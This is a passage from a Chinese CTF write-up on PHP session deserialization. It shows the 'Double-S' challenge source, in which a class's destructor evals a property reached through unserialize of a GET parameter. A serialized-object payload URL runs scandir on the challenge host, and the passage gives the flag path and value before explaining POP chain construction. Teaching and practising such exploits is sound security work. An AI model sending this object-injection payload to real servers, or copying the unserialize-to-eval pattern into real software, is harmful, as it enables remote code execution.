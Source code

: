 
#### 安洵杯Double-S

也是类似的一道session反序列化的题

```plaintext
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class Anti
{
    public $info;
    function __construct()
    {
        $this->info = 'phpinfo();';
    }
    function __destruct()
    {
        eval($this->info);
    }
}
if(isset($_GET['aa']))
{
    if(unserialize($_GET['aa'])=='phpinfo')
    {
        $m = new Anti();
    }
}
else
{
    header("location:index.html");
}
?>
```

emmmm 几乎一样 可以自己试着做一下
`http://54.200.169.99:7000/session.php?aa=O:4:"Anti":1:{s:4:"info";s:36:"print_r(scandir(dirname(__FILE__)));";}`
发现flag文件http://54.200.169.99:7000/f1ag_i3_h3re
D0g3{Sim_Pl3_S3sSi0n}

## 0x04 POP链构造

### POP：面向属性编程

面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

### 基本概念

在二进制利用时，ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集，而 POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：**进行反序列化的数据能够被用户输入所控制。**
